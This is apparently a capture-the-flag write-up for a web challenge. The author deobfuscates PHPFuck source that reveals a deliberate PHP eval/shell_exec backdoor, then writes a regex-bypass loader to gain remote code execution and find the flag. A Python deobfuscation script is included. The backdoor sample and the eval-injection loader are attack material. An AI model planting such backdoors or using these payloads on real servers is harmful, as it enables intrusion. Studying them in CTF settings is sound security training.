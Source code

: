 # Until the end

- Road to Valhalla part 3 
- medium

In part2 of Road to Valhalla you found the URL of the server that contains the coordinates of Valhalla. You open the site and see the title of the page "Only those who endure until the end". So be it traveler endure till the end and you will have your reward!

https://until-the-end.secchallenge.crysys.hu

author: Pepe

## Writeup

We were greeted with syntax-highlighted PHP code (linked because it's BIG). It was actually the source code of the page.

Identifying that brackety-thing was not straightforward, and took me some time. Googling `programming only brackets` led me to [this SO question](https://stackoverflow.com/questions/25622221/language-made-only-of-brackets-plus-and-exclamation-marks) and it turns out there's a joke-language (a subset of JS) called `JSFuck` witch uses only a few characters for programs. Of course, this is PHP and another set of characters...

After that, I've randomly googled `PHPFuck` and found [this github repo](https://github.com/splitline/PHPFuck), basically the exact thing used here.

![php_normal](php.png)
(meme by `rnbwdsh`)

So, I've worked on un-fucking the script. It's not that hard, it's just making characters and concatenates them into code, then passes it to `create_function`. It mostly follows the pattern of `(char).(char).(char)`. With a PHP shell to eval the characters I've managed to search-replace all of them and reverse the code:
```PHP
<title>Only those who endure until the end</title>
<?php 
highlight_file(__FILE__);
if (isset($_GET[' '])) {
    $will_eval = str_replace('a', str_replace('kekw'), str_rot13(strtoupper(substr($_GET[' '], 42, 69))));
    var_dump($will_eval);
    eval($will_eval);
}
else if (isset($_GET['+'])) {
    if (preg_match('/[b-d\-0-9H-LA-DU-Xi-kn-s!?TEz.]/', $_GET['+'])) 
        die();
    eval($_GET['+']);
}
else {
    die();
    shell_exec($_GET['cmd']);
}
?>
```

So there's actually 2 backdoors, but possibly only one of them is accessible. With a few tries (a lot of them actually because I f-ed them up) it turns out that `+` can be a parameter if URL-encoded as `%2B`. It will only eval our payload if it does NOT match that regex, witch limits what we can do.

I've came up with a way to escape that regex prison by `eval()`-ing another `$_GET` parameter. I could not just include `$_GET`, but could do `$_Get` and `eval()` it after `strtoupper()` and get the same thing. The whole thing only works because function names are not case sensitive.

Here's my loader:
```php
$a=StRtOuPPeR('$_Get');
$Y=eval("RetuRN {$a};");
$x=$Y['x'];
eval($x);
```

Sent URL-encoded of course.

With that, I've gained RCE on the server. It took me a really long time to figure out that this even works, because I've always tried `shell_exec()` and `file_read()` and those were disabled (should have run `phpinfo()` first, stupid me). 

Anyways, if you list the contents of the folder, you can see that there is a folder named `very_secret_hidden_folder_[removed_that_so_you_wont_get_the_flag_for_free]` and as with the previous ones I could just navigate there and find the flag.


The request I've found the folder with: `+=<loader>&x=echo scandir(".");`

### EDIT:
My code unfucking the PHP:
```python
REPLACE = [
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","c"],
    ["(([].[])[([]^[[]])])", "r"],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])", "e"],
    ["(([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","a"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])])","t"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","_"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","f"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])])","u"],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","n"],
    ["(([]^[]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","i"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","o"],
    ["(([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])])","s"],
    ["(([]^[[]])+([]^[[]]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])", "g"],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])])","v"],
    ["(([]^[]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","("],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","$"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])])","G"],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])])","E"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","T"],
    ["(([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","["],
    ["(([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])"," "],
    ["(([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])",'"'],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])",","],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","\\'"],
    ["(([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])",")"],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","{"],
    ["(([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","\\n"],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","]"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","l"],
    ["(([]^[[]]).[][[]]^([].[])[([]^[])])","p"],
    ["(([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","k"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])])","w"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","m"],
    ["(([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","h"],
    ["(([]^[[]]).[][[]])","1"],
    ["(([].[])[([]^[])]^([].[])[([]^[[]])])","3"],
    ["(([]^[[]]).[][[]]^([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","b"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]])","4"],
    ["(([]^[[]])+([]^[[]]).[][[]])","2"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]])","6"],
    ["(([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","9"],
    ["(([]^[[]]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","d"],
    ["(([]^[]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])",";"],
    ["(([].[])[([]^[])]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","+"],
    ["(([]^[]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","}"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","/"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","-"],
    ["(([]^[[]]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","\\"],
    ["(([]^[]).[][[]]^([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","x"],
    ["(([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","!"],
    ["(([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","H"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","L"],
    ["(([]^[[]]).[][[]]^([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[])])","D"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])])","U"],
    ["(([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","X"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","?"],
    ["(([]^[[]]).[][[]]^([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","z"],
    ["(([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]]).[][[]]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])]^([].[])[([]^[[]])+([]^[[]])+([]^[[]])+([]^[[]])])","."],
    ["(([].[])[([]^[])])","A"],
    ["(([]^[]).[][[]])","0"],

]

REPLACE.sort(key=lambda x: len(x[0]), reverse=True)


with open("phpfuck.php") as fin:
    with open("out.php", "w") as fout:
        l = fin.read()
        for r in REPLACE:
            l = l.replace(r[0],f"'{r[1]}'")
        #l = l.replace("'.'","")
        fout.write(l)
        
```
